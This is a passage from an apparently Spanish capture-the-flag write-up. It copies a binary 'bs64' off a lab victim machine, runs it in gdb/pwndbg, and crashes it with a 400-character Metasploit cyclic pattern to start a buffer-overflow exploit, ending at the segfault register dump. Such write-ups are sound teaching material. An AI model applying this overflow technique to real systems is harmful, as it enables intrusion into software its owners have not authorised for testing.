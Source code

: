 Ahora desde la maquina victima montamos un servidor **python3** para descargarnos el binario a nuestro equipo de atacante:
```bash
python3 -m http.server 8080
```

Realizamos la peticion:
```bash
wget http://172.17.0.2:8080/bs64
```

Damos permisos de ejecucion a el binario:
```bash
chmod +x bs64
```

# BufferOverFlow

Lanzamos el binario con la herramienta:
```bash
gdb ./bs64
```

Ejecutamos la aplicacion:
```bash
pwndbg> run
```

Ahora crearemos un cadena de **400** caracteres para aplicar el desbordamiento de **buffer**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Se ejecutara el programa, Y nos pedira que ingresemos un **texto**
```bash
Ingrese el texto: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Tenemos lo siguiente:
```bash
Program received signal SIGSEGV, Segmentation fault.
0x00000000004013d8 in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]
 RAX  0
 RBX  0x7fffffffdd88 ◂— '4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A'
 RCX  0
 RDX  0
 RDI  0x7ffff7f987b0 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x4052a0 ◂— 0x5751455751455751 ('QWEQWEQW')
 R8   0
 R9   0
 R10  0
 R11  0x202
 R12  0
 R13  0x7fffffffdd98 ◂— 'Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A'
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe310 ◂— 0
 R15  0x403df0 —▸ 0x401130 ◂— endbr64 
```